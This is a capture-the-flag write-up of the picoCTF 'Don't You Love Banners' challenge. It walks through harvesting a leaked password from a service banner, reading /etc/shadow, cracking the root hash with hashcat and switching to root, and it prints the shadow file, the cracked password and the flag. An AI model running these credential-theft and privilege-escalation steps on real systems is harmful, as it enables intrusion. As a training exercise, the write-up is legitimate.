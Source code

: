 # **Don't You Love Banners**

## **Problem**
Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 57623. 
Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 56550. 
From the above information abuse the machine and find the flag in the /root directory.

## **Solution**
First NC the leaking server...it gives you the password!

└─$ nc tethys.picoctf.net 57623
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234

Then go to the next server and enter in the password. It will ask you 2 questions which after a little Google Searching 
you will answer easily.

└─$ nc tethys.picoctf.net 56550
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
def con

the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper


player@challenge:~$ 


now that you are in, find the flag.

a quick ls -la will show the flag.txt file

I actually didnt use the hints to get the flag...I checked the etc folder and was given access. Becuase this was open
I jumped straight to the shadow folder and hit it with a the cat function:

player@challenge:~$ cd /etc
cd /etc
player@challenge:/etc$ cat shadow
cat shadow
root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
daemon:*:19507:0:99999:7:::
bin:*:19507:0:99999:7:::
sys:*:19507:0:99999:7:::
sync:*:19507:0:99999:7:::
games:*:19507:0:99999:7:::
man:*:19507:0:99999:7:::
lp:*:19507:0:99999:7:::
mail:*:19507:0:99999:7:::
news:*:19507:0:99999:7:::
uucp:*:19507:0:99999:7:::
proxy:*:19507:0:99999:7:::
www-data:*:19507:0:99999:7:::
backup:*:19507:0:99999:7:::
list:*:19507:0:99999:7:::
irc:*:19507:0:99999:7:::
gnats:*:19507:0:99999:7:::
nobody:*:19507:0:99999:7:::
_apt:*:19507:0:99999:7:::
systemd-network:*:19791:0:99999:7:::
systemd-resolve:*:19791:0:99999:7:::
messagebus:*:19791:0:99999:7:::
sshd:*:19791:0:99999:7:::
player:$6$BCCW51fi$UI/5W01uG2.6EmxktMtZXbJQwrgDlv213cLwu7RxaIQHnRZXwKZ3yjuyNKf86KlSwbvAOp3YozpNVrBeKW9Ls0:19791:0:99999:7:::


there is our root password with sha512crypt (we know this because of the $6$)....run hashcat
with 1800 for the format and --show to produce the results

─$ hashcat -a 0 -m 1800 hash /usr/share/seclists/Passwords/Cracked-Hashes/milw0rm-dictionary.txt --show
$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:iloveyou


now with the root password just su root...enter iloveyou and you have all rights

player@challenge:/etc$ su root
su root
Password: iloveyou

locate and cat the flag

root@challenge:/etc# cd /root
cd /root
root@challenge:~# ls -la
ls -la
total 16
drwxr-xr-x 1 root root    6 Mar 12 00:18 .
drwxr-xr-x 1 root root   29 Mar 27 18:14 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12 00:18 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7 17:25 script.py
root@challenge:~# cat flag.txt
cat flag.txt
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_218ef5d6}



